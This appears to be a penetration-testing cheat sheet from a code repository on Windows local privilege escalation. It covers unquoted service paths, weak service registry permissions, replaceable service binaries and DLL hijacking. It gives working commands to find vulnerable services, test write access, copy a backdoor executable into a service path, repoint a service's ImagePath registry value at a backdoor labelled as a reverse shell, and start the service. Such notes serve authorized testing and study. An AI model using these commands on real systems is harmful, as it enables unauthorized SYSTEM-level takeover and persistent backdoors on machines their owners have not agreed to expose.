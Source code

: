 
### Unquoted Service Path
Finding Unquoted Service with wmic command:
```bat
wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v """
```

Finding Unquoted service with WinPeas:
```bat
.\winpeas.exe quiet serviceinfo
```

If these command finds path something like:```C:\Program Files\Service Path\Vulnerable Service\service_name.exe``` We can exploit it. Because windows will search the service_name.exe in every directory. So we can name our backdoor ```service_name.exe``` and copy to the writeable directory. **Example:**
```bat
#Test the directory if writeable
echo Test>"C:\Program Files\Service Path\Vulnerable Service\test.txt" #if test.txt is created without any error, good!
copy backdoor.exe "C:\Program Files\Service Path\Vulnerable Service\service_name.exe"
net start service_name
```


### Insecure Registry Permission
If the current can't modify the service directory but has permission to modify it's registry, we can escalate privillege!

**Manually Checking:**
```bat
reg query hklm\System\CurrentControlSet\Services /s /v imagepath

#Try to write to the registry
for /f %a in ('reg query hklm\system\currentcontrolset\services') do del %temp%\reg.hiv 2>nul & reg save %a %temp%\reg.hiv 2>nul && reg restore %a %temp%\reg.hiv 2>nul && echo You can modify %a 

#Add Reverse Shell
reg add HKLM\SYSTEM\CurrentControlSet\srevices\service_name /v ImagePath /t REG_EXPAND_SZ /d C:\windows\temp\backdoor.exe /f

#start the service
net start service_name
```
Reference: ```https://book.hacktricks.xyz/windows/windows-local-privilege-escalation```


### Insecure Service Executeable
If we can replace the original binary file, we can replace it with our reverse backdoor(Not so common though)


### DLL Hijacking
If a service or program running as system, missing a dll, and we have write permission to the path where windows search for dll, we can create our own malicious and escalate to higher privillege.
